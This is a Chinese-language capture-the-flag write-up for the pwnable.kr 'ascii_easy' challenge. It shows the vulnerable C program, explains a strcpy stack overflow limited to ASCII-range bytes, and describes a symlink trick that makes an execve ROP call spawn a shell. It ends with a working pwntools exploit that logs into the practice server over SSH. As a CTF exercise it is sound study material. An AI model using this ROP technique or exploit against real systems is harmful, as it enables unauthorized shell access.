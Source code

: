 ```yaml
---
title: kr_ascii_easy
date: 2020-02-10 20:36:52
tags:
- pwn
- pwnable.kr
---
```


# pwnable.kr ascii_easy

### 0x1 分析

看一下安全性：

<img src="https://i.loli.net/2020/02/10/BFuAyZd51CKmsYH.png" style="zoom:50%;" />

可操作性挺强的（看起来）。还给了libc-2.15.so文件。

看一下源码：

```c
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>

#define BASE ((void*)0x5555e000)

int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}

void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}

void main(int argc, char* argv[]){

    if(argc!=2){
        printf("usage: ascii_easy [ascii input]\n");
        return;
    }

    size_t len_file;
    struct stat st;
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }

    int i;
    for(i=0; i<strlen(argv[1]); i++){
        if( !is_ascii(argv[1][i]) ){
            printf("you have non-ascii byte!\n");
            return;
        }
    }

    printf("triggering bug...\n");
    vuln(argv[1]);

}
```

首先程序需要一个参数。要求是通过`is_ascii`函数的检测。每个字符要在`0x20-0x7f`之间。这样其实限制了太多。

看到在`vuln()`函数里有溢出点`strcpy(buf, p);`，这里并没有长度要求。而且没有CANARY的保护。接下来要考虑怎么构造ROP。

然而由于`is_ascii`的范围限制。one_gadget找到的gadget都不能用。

实在不想构造一个很长的ROP链（懒。）最后找到一个师傅的[write up](https://chp747.tistory.com/291)。他用了一个很巧妙的办法来完成。

首先，他设置了`/bin/sh` 到 `error`的软链：`ln -s /bin/sh error`。

接着构造一个`payload`，来构造执行函数`execve("error", NULL, NULL);`

查找`NULL`：`objdump -d libc-2.15.so | grep "00 00 00 00"`

查找`"error"`：`objdump  -d libc-2.15.so -j .rodata | grep "error" `

完成。

### 0x2 EXP

```python
#!/usr/bin/python
from pwn import *

#gets = 0x555c3e30
#buf = 0x556d5555
call_execve = 0x5561676a
error = 0x556b7c56
null = 0x556f7640

_argv = 'A'*0x20
_argv += p32(call_execve)
_argv += p32(error)
_argv += p32(null)
_argv += p32(null)

s = ssh(host='pwnable.kr', user='ascii_easy', password='guest', port=2222)
r = s.process(['./ascii_easy', _argv])
r.interactive()
```

